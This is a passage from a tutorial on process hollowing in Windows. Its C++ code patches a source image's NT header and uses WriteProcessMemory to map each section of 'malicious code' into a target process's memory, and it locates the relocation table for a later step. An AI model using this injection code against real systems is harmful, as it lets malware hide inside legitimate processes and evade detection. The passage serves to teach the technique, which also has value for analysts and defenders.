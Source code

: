 We can carry this out by simply modifying the NT header structure directly and then using WriteProcessMemory to write the NT header to the target process.

```cpp
// save the source image base before patching for calculating delta in later sections
DWORD sourceImageBase = (DWORD)sourceImageNTHeaders->OptionalHeader.ImageBase;

// patch the image base of the source image
sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
WriteProcessMemory(destProcess, destImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);
```
## Writing each section from the malicious code to the target process
Now that we have memory allocated in the target process, the next step is to copy the necessary sections from the source image (containing our malicious code) into the target process. However, it's important to note that the source image is currently unmapped and needs to be mapped in the target process.

To map the sections of the source image, we first need to obtain the source and destination addresses for each section. The source addresses can be retrieved by looping through the different image sections and accessing the pointer to raw data variables defined in the image section structure. The destination address is determined by summing the destination image base address and the virtual address of the sections. The virtual addresses of the sections are also defined in the image section structure.

In simpler terms: -

1. When reading the sections from the source image, we use the pointer to raw data variables as the source addresses. 
2. When writing the sections to the target image, the destination addresses would be the virtual addresses for each section, indicating where it should sit in the mapped memory of the target process. 

With these addresses identified, we can proceed with mapping the image and copying the sections into the allocated memory of the target process. While looping through the image sections, we can also obtain the raw address and the size of the base relocation table which we can use in the next section.

```cpp
// copy each section from the source to the destination
PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceImageNTHeaders + sizeof(IMAGE_NT_HEADERS32));
DWORD sectionsCount = sourceImageNTHeaders->FileHeader.NumberOfSections;
DWORD relocationAddress;
DWORD relocationTableSize;

for (int i = 0; i < sectionsCount; i++) {
	// sourceImageSection->VirtualAddress is the offset where the section will be loaded in memory.
	PVOID destinationSectionLocation = (PVOID)((DWORD)destImageBase + sourceImageSection->VirtualAddress);

	// sourceImageSection->PointerToRawData is the location of the section on disk.
	PVOID sourceSectionLocation = (PVOID)((DWORD)sourceFileBytesBuffer + sourceImageSection->PointerToRawData);
	WriteProcessMemory(destProcess, destinationSectionLocation, sourceSectionLocation, sourceImageSection->SizeOfRawData, NULL);

	// get relocation table address and size for base relocation patching in the next step
	BYTE* reloc = (BYTE*)".reloc";
	if ((memcmp(reloc, sourceImageSection->Name, 5) == 0)) {
		relocationAddress = (DWORD)sourceFileBytesBuffer + sourceImageSection->PointerToRawData;
		relocationTableSize = (DWORD)sourceImageSection->SizeOfRawData;
	}

	sourceImageSection++;
}
```